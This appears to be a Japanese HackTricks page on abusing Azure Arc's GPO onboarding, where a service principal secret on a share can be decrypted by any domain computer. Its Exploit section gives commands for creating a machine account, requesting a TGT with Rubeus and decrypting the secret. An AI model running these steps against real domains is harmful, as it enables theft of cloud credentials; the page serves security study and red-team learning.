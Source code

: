# Az - Arc vulnerable GPO Deploy Script

{{#include ../../../banners/hacktricks-training.md}}

### 課題の特定

Azure Arcは、グループポリシーオブジェクトメソッドを使用して新しい内部サーバー（ドメインに参加したサーバー）をAzure Arcに統合することを可能にします。これを促進するために、Microsoftはオンボーディング手順を開始するために必要なデプロイメントツールキットを提供しています。ArcEnableServerGroupPolicy.zipファイル内には、DeployGPO.ps1、EnableAzureArc.ps1、およびAzureArcDeployment.psm1というスクリプトが含まれています。

DeployGPO.ps1スクリプトを実行すると、以下のアクションが実行されます：

1. ローカルドメイン内にAzure ArcサーバーオンボーディングGPOを作成します。
2. オンボーディングプロセスのために作成された指定されたネットワーク共有にEnableAzureArc.ps1オンボーディングスクリプトをコピーします。この共有にはWindowsインストーラーパッケージも含まれています。

このスクリプトを実行する際、システム管理者は2つの主要なパラメータを提供する必要があります：**ServicePrincipalId**と**ServicePrincipalClientSecret**。さらに、ドメイン、共有をホストするサーバーのFQDN、および共有名などの他のパラメータも必要です。テナントID、リソースグループ、およびスクリプトに提供する必要のあるその他の情報などの詳細も必要です。

暗号化されたシークレットは、指定された共有のAzureArcDeployディレクトリ内にDPAPI-NG暗号化を使用して生成されます。暗号化されたシークレットは、encryptedServicePrincipalSecretという名前のファイルに保存されます。これに関する証拠は、DeployGPO.ps1スクリプト内に見られ、暗号化は$descriptorと$ServicePrincipalSecretを入力としてProtectBase64を呼び出すことで行われます。ディスクリプタは、ドメインコンピュータおよびドメインコントローラーグループのSIDで構成されており、ServicePrincipalSecretはドメインコントローラーおよびドメインコンピュータのセキュリティグループによってのみ復号化できることが、スクリプトのコメントに記載されています。
```bash
# Encrypting the ServicePrincipalSecret to be decrypted only by the Domain Controllers and the Domain Computers security groups
$DomainComputersSID = "SID=" + $DomainComputersSID
$DomainControllersSID = "SID=" + $DomainControllersSID
$descriptor = @($DomainComputersSID, $DomainControllersSID) -join " OR "
Import-Module $PSScriptRoot\AzureArcDeployment.psm1
$encryptedSecret = [DpapiNgUtil]::ProtectBase64($descriptor, $ServicePrincipalSecret)
```
### Exploit

次の条件があります：

1. 内部ネットワークに成功裏に侵入しました。
2. Active Directory内でコンピュータアカウントを作成または制御する能力があります。
3. AzureArcDeployディレクトリを含むネットワーク共有を発見しました。

AD環境内でマシンアカウントを取得する方法はいくつかあります。最も一般的な方法の1つは、マシンアカウントのクォータを悪用することです。別の方法は、脆弱なACLやさまざまな他の誤設定を通じてマシンアカウントを侵害することです。
```bash
Import-MKodule powermad
New-MachineAccount -MachineAccount fake01 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```
マシンアカウントが取得されると、このアカウントを使用して認証することが可能です。runas.exeコマンドをnetonlyフラグと共に使用するか、Rubeus.exeを使用してパス・ザ・チケットを利用することができます。
```bash
runas /user:fake01$ /netonly powershell
```

```bash
.\Rubeus.exe asktgt /user:fake01$ /password:123456 /prr
```
コンピュータアカウントのTGTがメモリに保存されていることで、次のスクリプトを使用してサービスプリンシパルの秘密を復号化できます。
```bash
Import-Module .\AzureArcDeployment.psm1

$encryptedSecret = Get-Content "[shared folder path]\AzureArcDeploy\encryptedServicePrincipalSecret"

$ebs = [DpapiNgUtil]::UnprotectBase64($encryptedSecret)
$ebs
```
代わりに、[SecretManagement.DpapiNG](https://github.com/jborean93/SecretManagement.DpapiNG)を使用できます。

この時点で、暗号化されたServicePrincipalSecretファイルと同じネットワーク共有に保存されているArcInfo.jsonファイルから、Azureに接続するために必要な残りの情報を収集できます。このファイルには、TenantId、servicePrincipalClientId、ResourceGroupなどの詳細が含まれています。この情報を使用して、Azure CLIを使用して侵害されたサービスプリンシパルとして認証できます。

## 参考文献

- [https://xybytes.com/azure/Abusing-Azure-Arc/](https://xybytes.com/azure/Abusing-Azure-Arc/)

{{#include ../../../banners/hacktricks-training.md}}
